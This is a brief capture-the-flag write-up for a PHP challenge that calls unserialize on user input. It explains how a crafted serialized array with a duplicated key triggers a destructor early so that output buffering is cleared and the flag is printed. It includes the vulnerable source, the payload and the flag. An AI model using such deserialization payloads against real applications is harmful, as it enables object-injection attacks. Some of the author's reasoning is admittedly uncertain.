

In this challenge we need to exploit `unserialize`.

This is the source code:
```php
<?php
class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

if (isset($_POST['payload'])) {
    ob_start();
    $a = unserialize($_POST['payload']);
    if ($a === False) {
        ob_end_clean();
    }
    throw new Exception('Something tragic happened');
}
?>
```

The default payload is: `O:1:"B":0:{}`, which should echo the flag, because the class B should get destructed at the end.

However, it doesn't because the function `ob_start()`, which basically stops output from being showed (at least the what is being printed using echo). 

Our only way is if it'll enter the `if` statement, and call `ob_end_clean()` to disable the output buffering.

So, we need 2 things:
* call `ob_end_clean()`, means that `$a` will be false
* summon the `__destruct` before Exception being thrown.

We can use this payload to achieve that:
```php
a:2:{i:0;O:1:"B":0:{}i:0;i:1337;}
```

This is an array that should have two objects inside him, class B and int which equals 1337.

However, as we can see, the second index isn't 1, rather 0, so it overrides the first cell in the array, and then the destructor is being called immidittaly.

In addition, this should return false, because it fails... So, we maid it.


Notice that the `;` isn't here `"B":0:{}i:0`, between the `{}` and `i`. This is important, without that it won't work, i'm not sure why, i tried with [4v3l.org](https://3v4l.org/lbKBF) to runs snippet of codes and it worked also with `;`




**Flag:** ***`WWEBSEC{Cheers_to_ambionics_and_to_php35c3ctf}`*** 
